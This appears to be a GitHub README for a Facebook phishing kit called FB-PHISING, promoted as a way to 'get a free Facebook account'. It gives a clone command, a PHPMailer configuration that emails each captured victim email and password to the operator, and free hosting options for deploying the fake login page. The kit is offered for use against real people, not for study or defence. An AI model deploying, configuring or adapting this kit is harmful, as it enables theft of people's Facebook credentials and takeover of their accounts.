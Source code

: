 # FB-PHISING

Do you want to get a free Facebook account? FB-PHISING is the solution

## Installation

You can install with git bash or directly from github

```bash
git clone https://github.com/SbgSchool/FB-PHISING.git
```

## Usage

Change the configuration belows

```php
	$mail->Username = "your@email.com"; //email server
	$mail->Password = "your_password"; //password email server
    $mail->SetFrom("Your Email", "Name"); //set sender email
    $mail->Subject = "subject"; //subject email
    $mail->AddAddress("Your@email2.com");  // Email to get results
	$mail->MsgHTML("Email : ".$email."\nPass : ".$pass."");
```

After changing the configuration ... you can immediately try it with a web server or web hosting

<ul>
	<li>Webserver</li>
	<li>
		<ul>
			<li>XAMPP</li>
			<li>WAMPP</li>
			<li>and others</li>
		</ul>
	</li>
	<li>Web Hosting</li>
	<li>
		<ul>
			<li>Infinity free</li>
			<li>000webhost</li>
			<li>and others</li>
		</ul>
	</li>
</ul>

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)